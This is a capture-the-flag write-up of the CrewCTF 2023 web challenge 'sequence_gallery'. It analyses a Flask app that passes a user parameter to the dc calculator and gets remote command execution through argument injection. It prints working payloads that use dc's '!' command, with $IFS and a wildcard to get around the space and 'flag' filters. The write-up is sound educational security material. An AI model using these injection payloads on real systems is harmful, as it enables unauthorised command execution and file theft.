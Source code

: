 # sequence_gallery

## Table of Contents

1. [Overview](#overview)
2. [Background](#background)
3. [Enumeration](#enumeration)
4. [Conclusion](#conclusion)

## Overview

- 101 solves / 100 points
- Overall difficulty for me (From 1-10 stars): ★★★★☆☆☆☆☆☆

## Background

- Do you like sequences?

Author : Satoooon

[http://sequence-gallery.chal.crewc.tf:8080/](http://sequence-gallery.chal.crewc.tf:8080/)

![](https://github.com/siunam321/CTF-Writeups/blob/main/CrewCTF-2023/images/Pasted%20image%2020230710142650.png)

## Enumeration

**Home page:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/CrewCTF-2023/images/Pasted%20image%2020230708134050.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/CrewCTF-2023/images/Pasted%20image%2020230708145108.png)

**In here, we can click the "View" button to see the output of each functions:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/CrewCTF-2023/images/Pasted%20image%2020230708145125.png)

**In this challenge, we can download a [file](https://github.com/siunam321/CTF-Writeups/blob/main/CrewCTF-2023/Web/sequence_gallery/sequence_gallery.zip):**
```shell
┌[siunam♥Mercury]-(~/ctf/CrewCTF-2023/Web/sequence_gallery)-[2023.07.08|14:51:57(HKT)]
└> unzip sequence_gallery.zip 
Archive:  sequence_gallery.zip
   creating: dist/
   creating: dist/src/
  inflating: dist/src/factorial.dc   
  inflating: dist/src/fibonacchi.dc  
  inflating: dist/src/flag.txt       
  inflating: dist/src/main.py        
  inflating: dist/src/power.dc       
   creating: dist/src/templates/
  inflating: dist/src/templates/index.html  
```

**In `dist/src/main.py`, we can see the web application's logic:**
```python
import os
import sqlite3
import subprocess

from flask import Flask, request, render_template

app = Flask(__name__)

@app.get('/')
def index():
	sequence = request.args.get('sequence', None)
	if sequence is None:
		return render_template('index.html')

	script_file = os.path.basename(sequence + '.dc')
	if ' ' in script_file or 'flag' in script_file:
		return ':('

	proc = subprocess.run(
		['dc', script_file], 
		capture_output=True,
		text=True,
		timeout=1,
	)
	output = proc.stdout

	return render_template('index.html', output=output)

if __name__ == '__main__':
	app.run(host='0.0.0.0', port=8080)
```

In route `/`, when the `sequence` GET parameter is given, it'll strip out all rest of the path and ONLY extract the filename. Then, it'll append `.dc` to the filename. For example, parameter value `power` will become `power.dc`.

Moreover, if the `sequence` GET parameter's value contains a space character (` `) or `flag`, it'll return `:(`.

After that, it'll use `subprocess.run()` method to execute a Linux command called `dc`, and with the `sequence` GET parameter's value as the ***argument***. Notice that the `Shell` argument is not provided, which means **we can't inject OS command**. (Or is it :D)

Finally, use `render_template()` to render the `output` of the `dc` command. (`render_template()` is not vulnerable to Server-Side Template Injection (SSTI))

## Exploitation

Now, in `subprocess.run()` method it doesn't have `Shell=True`, however it doesn't mean it's not vulnerable.

Our `sequence` GET parameter's value is being parsed as an argument in the `dc` command, thus it's very likely to be ***vulnerable to argument injection***:

![](https://github.com/siunam321/CTF-Writeups/blob/main/CrewCTF-2023/images/Pasted%20image%2020230708150122.png)

Nice! We can now confirm it's vulnerable to argument injection.

Hmm... I wonder what's `dc` in Linux...

**Let's install and view it's `man` page:**
```shell
┌[siunam♥Mercury]-(~/ctf/CrewCTF-2023/Web/sequence_gallery)-[2023.07.08|15:01:45(HKT)]
└> sudo apt install dc
[...]
┌[siunam♥Mercury]-(~/ctf/CrewCTF-2023/Web/sequence_gallery)-[2023.07.08|15:01:47(HKT)]
└> man dc
[...]
DESCRIPTION
       dc  is  a  reverse-polish  desk calculator which supports unlimited precision arithmetic.  It
       also allows you to define and call macros.  Normally dc reads from the standard input; if any
       command arguments are given to it, they are filenames, and dc reads and executes the contents
       of the files before reading from standard input.  All normal output is  to  standard  output;
       all error output is to standard error.

       A  reverse-polish  calculator  stores numbers on a stack.  Entering a number pushes it on the
       stack.  Arithmetic operations pop arguments off the stack and push the results.

       To enter a number in dc, type the digits (using upper case letters A through  F  as  "digits"
       when working with input bases greater than ten), with an optional decimal point.  Exponential
       notation is not supported.  To enter a negative number, begin the number with  ``_''.   ``-''
       cannot  be  used  for this, as it is a binary operator for subtraction instead.  To enter two
       numbers in succession, separate them with spaces or newlines.  These have no meaning as  com‐
       mands.
[...]
```

With that said, it's basically a *calculator*.

**However, when I was reading the `man` page, I found this:**
```shell
[...]
Miscellaneous
       !      Will run the rest of the line as a system command.  Note that parsing of the  !<,  !=,
              and  !>  commands take precedence, so if you want to run a command starting with <, =,
              or > you will need to add a space after the !.
[...]
```

Wow! So we can execute OS command? Cool!

**Let's try the following payload:**
```shell
-e !id
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/CrewCTF-2023/images/Pasted%20image%2020230708150507.png)

Uhh... I forgot the space character filter.

**In order to bypass the space character filter, we can try to replace the space character with anything else:**
```shell
-e"!id
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/CrewCTF-2023/images/Pasted%20image%2020230708150638.png)

We bypassed the filter! However, the `id` command still didn't execute...

**This is because our `id` command hasn't pressed the Enter key, or the new line character `\n` (`%0a` in URL encoding):**
```
-e"!id%0a
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/CrewCTF-2023/images/Pasted%20image%2020230708150815.png)

Nice! We can now execute arbitrary OS commands! 

**Let's get the flag!**
```
-e"!cat flag.txt%0A
```

Uh... Wait, the filters!

This time, since the space character is executed on the system, we need to find other bypasses.

Based on my experience, some Bash jail CTF challenges have banned space character.

In Bash, **we can use the `$IFS` special shell variable**. The `$IFS` (Internal Field Separator) is used by the shell to determine how to do word splitting, the default value for `$IFS` consists of whitespace characters.

Next, we need to bypass the `flag` filter.

To do so, we can use the `*` wildcard character, which will then read all the files in the current working directory.

**Hence, the final payload will be:**
```shell
-e"!cat$IFS*.txt%0A
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/CrewCTF-2023/images/Pasted%20image%2020230708151601.png)

- **Flag: `crew{10 63 67 68 101 107 105 76 85 111 68[dan10!=m]smlmx}`**

```shell
┌[siunam♥Mercury]-(~/ctf/CrewCTF-2023/Web/sequence_gallery)-[2023.07.08|15:18:28(HKT)]
└> dc         
10 63 67 68 101 107 105 76 85 111 68[dan10!=m]smlmx
DoULikeDC?
```

- Real flag (?) : `crew{DoULikeDC?}`

## Conclusion

What we've learned:

1. Remote Code Execution Via Argument Injection With `dc` Command